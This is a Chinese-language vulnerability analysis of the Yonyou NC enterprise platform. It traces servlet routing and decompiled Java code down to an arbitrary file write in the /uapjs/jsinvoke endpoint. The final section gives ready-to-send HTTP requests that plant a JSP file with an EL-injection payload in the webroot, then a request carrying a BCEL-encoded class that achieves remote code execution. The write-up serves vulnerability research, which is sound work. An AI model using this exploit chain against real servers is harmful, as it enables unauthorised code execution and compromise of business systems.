


## 环境搭建

http://static.kancloud.cn/imthx/uapdev/2651846

## 路由分析

`webapps/nc_web/WEB-INF/web.xml`

```xml
	<servlet-mapping>
	  <servlet-name>NCInvokerServlet</servlet-name>
	  <url-pattern>/service/*</url-pattern>
	</servlet-mapping>
	
	<servlet-mapping>
	  <servlet-name>NCInvokerServlet</servlet-name>
	  <url-pattern>/servlet/*</url-pattern>
	</servlet-mapping>
```

`nc.bs.framework.server.InvokerServlet的doAction`逻辑

```java
private void doAction(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        String token = this.getParamValue(request, "security_token");
        String userCode = this.getParamValue(request, "user_code");
        if (userCode != null) {
            InvocationInfoProxy.getInstance().setUserCode(userCode);
        }

        if (token != null) {
            NetStreamContext.setToken(KeyUtil.decodeToken(token));
        }

        String pathInfo = request.getPathInfo();
        log.debug("Before Invoke: " + pathInfo);
        long requestTime = System.currentTimeMillis();

        try {
            if (pathInfo == null) {
                throw new ServletException("Service name is not specified, pathInfo is null");
            }

            pathInfo = pathInfo.trim();
            String moduleName = null;
            String serviceName = null;
            int beginIndex;
            if (pathInfo.startsWith("/~")) {
                moduleName = pathInfo.substring(2);
                beginIndex = moduleName.indexOf("/");
                if (beginIndex >= 0) {
                    serviceName = moduleName.substring(beginIndex);
                    if (beginIndex > 0) {
                        moduleName = moduleName.substring(0, beginIndex);
                    } else {
                        moduleName = null;
                    }
                } else {
                    moduleName = null;
                    serviceName = pathInfo;
                }
            } else {
                serviceName = pathInfo;
            }
          if (serviceName == null) {
                throw new ServletException("Service name is not specified");
            }

            beginIndex = serviceName.indexOf("/");
            if (beginIndex < 0 || beginIndex >= serviceName.length() - 1) {
                throw new ServletException("Service name is not specified");
            }

            serviceName = serviceName.substring(beginIndex + 1);
            Object obj = null;

            String method;
            try {
                obj = this.getServiceObject(moduleName, serviceName);
            } catch (ComponentException var76) {
                method = svcNotFoundMsgFormat.format(new Object[]{serviceName});
                Logger.error(method, var76);
                throw new ServletException(method);
            }
            ...
```

这段代码在获得pathinfo后，截取/~后的字符串，/分割为moduleName和serviceName，然后`getServiceObject(moduleName, serviceName)`实现任意Servlet调用。

## 漏洞分析

### jsinvoke 任意文件上传

路由为`/uapjs/jsinvoke`，对应到`nc.bs.framework.js.servlet.JsInvokeServlet`

```java
public class JsInvokeServlet extends HttpServlet {
    private static final String INTERNAL_SERVLET_NAME = "nc.bs.framework.js.servlet.InternalJsInvokeServlet";
    private static final long serialVersionUID = -454087909088356435L;
    private HttpServlet internal;

    public JsInvokeServlet() {
    }

    public void init(ServletConfig servletConfig) throws ServletException {
        this.internal = (HttpServlet)ObjectCreator.newInstance("nc.bs.framework.js.servlet.InternalJsInvokeServlet");
        this.internal.init(servletConfig);
    }

    public void destroy() {
        this.internal.destroy();
    }

    public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
        this.internal.service(req, res);
    }
}
```

这里实例化了`nc.bs.framework.js.servlet.InternalJsInvokeServlet`，调用该类去处理

```java
public class InternalJsInvokeServlet extends HttpServlet {
    public static final Log logger = Log.getInstance(InternalJsInvokeServlet.class);
    private static final long serialVersionUID = -4592192033124993652L;

    public InternalJsInvokeServlet() {
    }

    private void invoke(HttpServletRequest request, HttpServletResponse response) throws ServletException {
        ICommand cmd = CommandFactory.getCommand(request);
        if (cmd != null) {
            cmd.execute(request, response);
        } else {
            try {
                super.service(request, response);
            } catch (IOException var5) {
                logger.error("js servlet invoke error", var5);
                throw new ServletException(var5);
            }
        }

    }

    protected void service(HttpServletRequest request, HttpServletResponse response) throws ServletException {
        this.invoke(request, response);
    }
}
```

当我们访问`/uapjs/jsinvoke/?action=invoke`的时候，会执行`cmd.execute(request, response)`，由于实例化的是`InvokeCommand`类，我们跟进到它的excute方法



这里简单解释一下他的处理流程：

1. 创建一个新的`GsonBuilder`对象，并设置它的`excludeFieldsWithoutExposeAnnotation`选项。这会导致生成的`Gson`对象在序列化和反序列化时，只处理那些被`@Expose`注解标注的字段。
2. 创建一个`Gson`对象，并使用这个对象将请求数据（`this.data`）解析为`MethodInvocation`对象。
3. 获取`MethodInvocation`对象所表示的方法的参数类型和返回类型。
4. 创建另一个`GsonBuilder`对象，并注册一个自定义的`JsonDeserializer`，用于将JSON数组解析为`List<Object>`。
5. 创建另一个`Gson`对象，并使用这个对象将请求数据（`this.data`）解析为另一个`MethodInvocation`对象。这个`Gson`对象和之前的`Gson`对象不同，因为它包含了一个自定义的`JsonDeserializer`。
6. 创建一个`MethodInvocationHandler`对象，并使用这个对象处理`MethodInvocation`。`MethodInvocationHandler`用于实际执行`MethodInvocation`所表示的方法，并获取方法的返回结果。
7. 如果方法有返回结果，那么将这个结果转换为JSON字符串，并写入HTTP响应。同时，设置HTTP响应的字符编码为"utf-8"。

在`MethodInvocationHandler`中会调用lookup方法去寻找接口的实现类

这一部分的调用栈

```
MethodInvocationHandler#handleMethodInvocation
ServerNCLocator#lookup
BusinessAppServer#lookup
AbstractContext#lookup
这个方法的主要逻辑是尝试在多个地方（例如服务缓存、JNDI 上下文、元数据）查找组件，并根据条件创建新的组件实例或者代理实例。
AbstractContext#findComponent
AbstractContext#instantiate
```



最终会根据传入的参数调用`MethodInvocation.invoke`方法

```java
    public Object invoke(Object implementation) throws Throwable {
        Method method = null;
        method = this.getMethod(implementation.getClass());
        Object result = method.invoke(implementation, this.parameters.toArray());
        return result;
    }
```

那么到这里我们知道，该方法可以根据我们传入的接口去获取它的实现类并调用其类方法，同时在请求中也能设置该方法的参数。

接下来我们找到一个可以利用的接口，`nc.itf.iufo.IBaseSPService#saveXStreamConfig`，其实现类为`nc.bs.iufo.base.BaseSPService`

```java
public void saveXStreamConfig(Object config, String url) {
        FileOutputStream fos = null;
        OutputStreamWriter writer = null;

        try {
            URL resource = ResourceManager.getResource(url);
            File file = null;
            if (resource != null) {
                file = new File(resource.getFile());
            } else {
                file = new File(url);
            }

            if (!file.exists()) {
                File parent = file.getParentFile();
                if (!parent.exists()) {
                    parent.mkdirs();
                }

                file.createNewFile();
            }

            if (!file.canWrite()) {
                file.setWritable(true);
            }

            fos = new FileOutputStream(file, false);
            writer = new OutputStreamWriter(fos, Charset.forName("UTF-8"));
            writer.write("<?xml version=\"1.0\" encoding=\"UTF-8\" ?>\n");
            getXStream().toXML(config, writer);
        } catch (Exception var18) {
            AppDebug.debug(var18);
            throw new RuntimeException(url + " Writer Error: " + var18.toString(), var18);
        } finally {
            if (fos != null) {
                try {
                    fos.close();
                } catch (IOException var17) {
                }
            }

            if (writer != null) {
                try {
                    writer.close();
                } catch (IOException var16) {
                }
            }

        }

    }
```

这段代码的主要功能是将一个Java对象（`config`）序列化为XML格式，并将这个XML数据保存到一个文件中。具体步骤如下：

1. 通过`ResourceManager.getResource(url)`获取一个`URL`对象，这个对象可能表示一个文件或者其他类型的资源。如果`ResourceManager.getResource(url)`返回`null`，那么将`url`当作一个文件路径。
2. 检查目标文件是否存在，如果不存在则创建这个文件。如果目标文件的父目录也不存在，那么创建这个父目录。
3. 检查目标文件是否可写，如果不可写则设置它为可写。
4. 创建一个`FileOutputStream`对象和一个`OutputStreamWriter`对象，用于向目标文件写入数据。`OutputStreamWriter`的字符编码设置为"UTF-8"。
5. 向目标文件写入XML声明（`<?xml version="1.0" encoding="UTF-8" ?>`）。
6. 使用`XStream`库将`config`对象序列化为XML格式，并将这个XML数据写入目标文件。`getXStream()`获取`XStream`对象。

至此，我们得到一个可以任意上传xml文件的漏洞

```http
POST /uapjs/jsinvoke/?action=invoke HTTP/1.1
Host: 10.211.55.5
User-Agent: Mozilla/4.0 (Mozilla/4.0; MSIE 7.0; Windows NT 5.1; FDM; SV1; .NET CLR 3.0.04506.30)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-formurlencoded

{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["123","webapps/nc_web/jndi.jsp"]}
```

由于jsp文件会使用el解析表达式，我们可以构造el表达式注入，有单双引号过滤，使用loadclass加载bcel

```http
POST /uapjs/jsinvoke/?action=invoke HTTP/1.1
Host: 10.211.55.5
User-Agent: Mozilla/4.0 (Mozilla/4.0; MSIE 7.0; Windows NT 5.1; FDM; SV1; .NET CLR 3.0.04506.30)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-formurlencoded

{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${param.getClass().forName(param.b).newInstance().loadClass(param.c).newInstance()}","webapps/nc_web/test.jsp"]}
```

之后访问jndi.jsp，携带请求参数

```http
GET /test.jsp?b=com.sun.org.apache.bcel.internal.util.ClassLoader&c=$$BCEL$$$l$8b$I$A$A$A$A$A$A$AU$90OK$c3$40$Q$c5$7f$h$93n$92$c66$9a$d6$3fGOV$3d$U$ef$c5$8bx$R$c1C$8b$e2qM$XM$Ni$88K$f1$hy$ee$c5$8a$82$l$c0$P$rn$o$o$cea$86y$bc$c7$bc7$9f_o$l$c01$bb$n$B$j$8f$a6$f6$e3$90$$$b1d$p$c4cS$92$84H$3a$92$9e$a05$ca$8a$cc$9c$I$d6$G$HW$C$f7t$3e$d5$C$7f$94$e6$N$k$R$d2$96$f4$p$b6$d8$W$q3$b5P$c3$5c$Vw$c3$b3$a7T$97$s$9b$X$R$3b$b4$ad$7e$9c$97$82$f8$8fpy$3b$d3$a9$f9$HM$ee$x$ad$a6$C$ef1$d7$da$b2$dd$c1y$7d$b4$5bVYa$c6F$a5$P$93J$a5$9a$3dk$_h$ac$3b$88$da$81$edQ$j$c4$ee$8e$9d$c9$e1$K$d1$c3y$c5$7d$c6$bf8z$a1$b5$b4$U$d7R$d7$a9C$fbv$fe$8a$fa$8d$E$82w$e4$cd$K$ffz$f9$f3$95o$i$b6$cb$93$y$B$A$A HTTP/1.1
Host: 10.211.55.5
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```


参考：

https://lfysec.top/2021/09/10/%E7%94%A8%E5%8F%8BNC%E6%8C%96%E6%8E%98%E7%AC%94%E8%AE%B0/